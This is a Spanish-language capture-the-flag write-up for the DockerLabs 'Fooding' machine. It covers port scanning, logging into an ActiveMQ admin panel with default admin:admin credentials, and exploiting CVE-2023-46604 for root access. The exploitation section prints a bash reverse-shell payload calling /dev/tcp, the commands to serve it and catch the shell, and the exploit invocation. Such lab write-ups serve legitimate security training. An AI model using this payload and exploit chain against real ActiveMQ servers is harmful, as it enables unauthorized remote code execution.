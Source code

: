 # Máquina Fooding
Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/0SlG3S7Z#bF91meiTF3k8A9RGhvnqdS-Irm-GnDLYGpUQk1S9_lQ)

- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- ActiveMQ 5.15.25 exploit

### Reconocimiento
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -n -Pn -sS -p- --min-rate 5000  172.17.0.2 -oN escaneo.txt
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con nmap para que nos reporte más información sobre los servicios.
```bash
sudo nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted.txt
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado Fuzzing sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto 8161
```bash
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:

    root:root
    guest:guest
    admin:admin

Logramos acceder con las credenciales admin:admin

En la web encontramos un directorio /admin en uno de los links. Observamos el panel de ActiveMQ, servicio el cual corre por el puerto 61616, como podemos ver en el reporte de nmap.
![Pasted image 20240707131751](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b81ba295-d605-4ec7-9f3e-aa5872c21f49)


### Explotación
Tras buscar en internet, encontramos un [exploit](https://github.com/evkl1d/CVE-2023-46604) para la versión 5.15.15 -> Exploit En el exploit tenemos que editar el archivo poc.xml para ejecutar el comando que queremos, en este caso la reverse shell.
```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto 80 con python:
```bash
sudo python3 -m http.server 80
```

Abriremos el puerto 443 para recibir la reverse shell:
```bash
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el poc.xml de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de ActiveMQ que es el 61616.
```bash
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro.
```bash
whoami
----------------
root
```
Y como el usuario que corre el servicio que hemos explotado es root, tenemos los privilegios máximos en el sistema.
